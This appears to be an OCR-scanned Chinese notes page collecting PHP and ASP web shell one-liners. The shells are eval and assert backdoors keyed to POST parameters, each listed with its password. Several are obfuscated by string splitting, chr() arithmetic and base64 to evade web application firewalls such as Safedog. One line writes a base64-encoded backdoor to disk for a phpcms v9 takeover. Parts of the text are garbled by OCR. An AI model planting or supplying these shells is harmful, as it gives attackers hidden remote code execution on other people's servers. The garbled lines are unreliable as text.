 ~~~
ttt;$s($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=b;$b=$REQUEST[′b′];//b=as;$c=$REQUEST[′c′];//c=sert;$d=$REQUEST[′d′];//d=c;$e=
ttt;$s($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=b;$b=$REQUEST[′b′];//b=as;$c=$REQUEST[′c′];//c=sert;$d=$REQUEST[′d′];//d=c;$e=
a.
d;$e($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=assert;$b=$REQUEST[′b′];//b=a;$d=
d;$e($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=assert;$b=$REQUEST[′b′];//b=a;$d=
b; $d($_REQUEST['cc']); ?>
PHP过狗
<?php if($_POST[x]!=''){$a="base64_decode"; eval($a($_POST[z0]));}?> 密码：x
<%a=request(“gold”)%><%eval a%>


fuck<?php
eval
($_POST
[a])
?>


<?php $a=range(1,200);$b=chr($a[96]).chr($a[114]).chr($a[114]).chr($a[100]).chr($a[113]).chr($a[115]); $b(${chr($a[94]).chr($a[79]).chr($a[78]).chr($a[82]).chr($a[83])}[chr($a[51])]); ?> 密码 4
该日志目录不存在或权限不足，请检查设置！<?php
eval
($_POST
[a])
?>
~~~
### 几个变性的php–过防火墙
~~~

<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?> <?php $lang = (string)key($_POST);$lang($_POST['sz']); ?> <?php $k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);?> <?php $a = "a"."s"."s"."e"."r"."t"; $a($_POST["sz"]); ?>
这个是90发的<?php


@$_=“s”.“s”./-/-/“e”./-/-/“r”;


@= / ∗ − / ∗ − ∗ / &quot; a &quot; . / ∗ − / ∗ − ∗ / _=/*-/*-*/&quot;a&quot;./*-/*-*/ 
=

 /∗−/∗−∗/"a"./∗−/∗−∗/_./-/-*/“t”;


@/ ∗ − / ∗ − ∗ / ( _/*-/*-*/( 
/

 ∗−/∗−∗/(/-/-/{"_P"./-/-/“OS”./-/-*/“T”}


[/-/-/0/-/-/-/-/-/2/-/-/-/-/-/5/-/-/]);?>
密码-7
~~~
### phpv9 高版本拿shell
~~~
<?php file_put_contents('c7.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2NjMjc4OV0pOz8+')); ?>
…/…/…/…/html/special/cc/index
~~~
### ASP
